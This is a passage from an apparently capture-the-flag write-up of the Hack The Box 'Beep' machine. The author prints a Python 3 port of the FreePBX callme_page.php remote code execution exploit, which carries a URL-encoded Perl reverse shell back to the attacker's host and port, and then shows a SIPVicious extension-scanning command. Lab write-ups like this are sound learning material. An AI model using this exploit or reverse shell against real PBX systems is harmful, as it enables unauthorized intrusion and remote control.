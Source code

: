 ![](/assets/images/htb/beep/rce_freepbx.png)

As always, I'm gonna mirror/copy this exploit into my current working directory with the `-m` flag. When I ran the exploit it shows a bunch of errors regard to `SSL`. I tried fixing the error by changing the python code and it was painful but I managed to fix it. Here is the code:

### <font color="#9bffc8">18650.py3</font>

```python
#!/usr/bin/python3
import ssl, urllib3

rhost = "10.10.10.7"
lhost = input("lhost>: ") 
lport = input("lport>: ")        
ext = input("ext>: ")
head = f"https://{rhost}/recordings/misc/callme_page.php?action=c&callmenum={ext}@from-internal/n%0D%0AApplication:%20system%0D%0AData:%20"
payload = f"perl%20-MIO%20-e%20%27%24p%3dfork%3bexit%2cif%28%24p%29%3b%24c%3dnew%20IO%3a%3aSocket%3a%3aINET%28PeerAddr%2c%22{lhost}%3a{lport}%22%29%3bSTDIN-%3efdopen%28%24c%2cr%29%3b%24%7e-%3efdopen%28%24c%2cw%29%3bsystem%24%5f%20while%3c%3e%3b%27%0D%0A%0D%0A'"
url = head + payload

# SSL Handler
urllib3.disable_warnings()
http = urllib3.PoolManager(cert_reqs="CERT_NONE")

# Execute
print("ExPl0itInG...")
http.request("GET", url)
```

### <font color="#9bffc8">svwar/SIPVicious</font>
I ran the exploit one more time and it doesn't work. I'm speechless and I saw the `extension` in the original script that set the value into `1000` and maybe this is not a valid extension. So, I'm gonna run the `svwar/SIPVicious` tool to identify a working extension.
 
I'm gonna run this command:
```bash
svwar -m INVITE -e100-400 10.10.10.7
```
 
![](/assets/images/htb/beep/svwar.png)
 